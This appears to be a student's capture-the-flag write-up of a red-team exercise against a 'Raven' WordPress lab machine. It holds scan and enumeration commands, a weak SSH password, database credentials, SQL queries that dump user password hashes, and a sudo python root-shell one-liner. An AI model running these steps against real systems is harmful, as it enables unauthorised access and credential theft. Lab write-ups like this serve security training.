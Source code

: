 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:


  ```bash
      $ nmap 192.168.1.0/24
  ```
![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/Capture.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Several IP's that are online and each IP has several ports that   are left open.
  - Several have Port 22 (SSH), 80 (HTTP), 111 (RPCBIND), 445 (MICRO-DS).
  - These are all possible vulnerabilities that need to be monitored/hardened because attackers can use these ports that are open to find a possible entry to the system.
  - I checked to see what the HTTP servers had on them and found a Raven Security Page that had tons of information that allowed me to learn more about the system and found that it is a wordpress site, which is known for weak security and has several holes for attackers.
  - I then ran a more intensive scan to look for OS information and versions of each of the services that were available:


   ```bash
      $ nmap -A 192.168.1.110
   ```

![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/Capture1.PNG)

The following vulnerabilities were identified on each target:
- Target 1


  - Once I found out that there was a site I ran a common directory search using a python script called dirsearch

  ```bash
    $ python3 dirsearch.py -u 192.168.1.110
  ```
  
  ![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/dirsearch.PNG)
  
  - This didn't lead to anything substantial so I then ran a WPScan knowing its a WordPress site to find known vulnerabilities and possible users:

  ```bash
  $ wpscan --url 192.168.1.110/wordpress --enumerate u
  ```
   ![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/wpscan.PNG)
  
  - This gave me some substantial information and found 2 users that were on the system:


  ![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/users.PNG)

	`Steven & Michael`

  - This scan and enumeration technique gave me more than I needed to continue


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
  
	![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/flag1.PNG)
	
      - I found this flag later in the engagement, but once I had access to the system I did some digging around and was able to find it inside of the service.html file
      - I exploited Michael's weak password and used it to gain ssh access to the system
      - Once I had access I ran
      
	```bash
	cat /var/www/html/service.html | grep -i flag
	```

  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

	![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/flag2.PNG)
    - Weak Password
      - The User Michael had a weak password with it being Michael and I was able to ssh into the system
      - I then ran `locate flag.txt` to look for flags and found it

  - `flag3.txt` : flag3{afc01ab56b50591e7dccf93122770cd2}

	![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/flag3.PNG)
      - I gained access to the mySQL db inside of the wp-config.php file which contained the login for the root user:

    ```bash
	DB_NAME = wordpress
	DB USER = root
	DB PASS = R@v3nSecurity
    ```
   - Once logged into the DB I looked at the tables that were inside the DB and ran:

       ```bash
       USE wordpress;
       SHOW TABLES;
       SELECT * FROM wp_users
       ```
       
   - This then gave me two hashes for the passwords of users Steven and Michael
      
    ![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/hashes.PNG))

     - I found this flag inside of the mySQL database under the wp_posts

  - `flag4.txt` : flag4{715dea6c055b9fe3337544932f2941ce}

	![](https://github.com/garrettduardo123/Final-Project/blob/main/Resources/flag4.PNG)
      - Once I got access to Steven's account via the mySQL DB weak hashes I looked for sudo privilege's and found that I had access to use Python
      - Once I figured out that Stevens allowed to use Python I looked online for possible ways to escalate privilege's using Python and found a good resource

        `https://gtfobins.github.io/gtfobins/python/`

      ```bash
      sudo python -c 'import os; os.system("/bin/sh")'
      ```

     - This gave me ROOT access and then was able to find the Root flag
